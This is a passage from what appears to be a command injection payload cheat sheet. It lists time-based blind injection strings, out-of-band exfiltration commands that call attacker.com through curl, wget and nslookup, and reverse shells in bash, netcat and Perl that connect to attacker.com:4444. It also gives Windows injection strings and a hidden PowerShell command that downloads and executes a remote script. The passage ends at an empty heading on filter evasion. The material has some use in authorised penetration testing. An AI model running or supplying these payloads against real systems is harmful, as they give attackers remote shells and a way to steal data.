
## 🧪 Time-Based Blind Injection Payloads

Useful when output is not visible:

`127.0.0.1 && sleep 10 127.0.0.1 | ping -c 10 127.0.0.1 ; sleep 5 ; ping -n 5 127.0.0.1  (Windows)`

---

## 🔗 Out-of-Band (OOB) Injection Payloads

Send request to attacker-controlled server:


``; curl http://attacker.com/$(whoami) ; wget http://attacker.com/`hostname` nslookup `whoami`.attacker.com ping $(whoami).attacker.com``

Test with Burp Collaborator, interact.sh, etc.

---

## 🦠 Reverse Shell Payloads

### Linux (Bash):
`bash -i >& /dev/tcp/attacker.com/4444 0>&1`

### Netcat (nc):
`nc attacker.com 4444 -e /bin/bash`

### Perl:
`perl -e 'use Socket;$i="attacker.com";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh");};'`

**Note**: Some systems don’t have `/bin/bash`, `nc`, or `perl`—use multiple methods.

---

## 🪟 Windows Command Injection Payloads

`127.0.0.1 & whoami 127.0.0.1 && dir 127.0.0.1 | net user & powershell -Command "whoami" & cmd /c calc`

### Windows Reverse Shell (PowerShell):

`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')"`

---

## 🔐 WAF/Filter Evasion Tricks
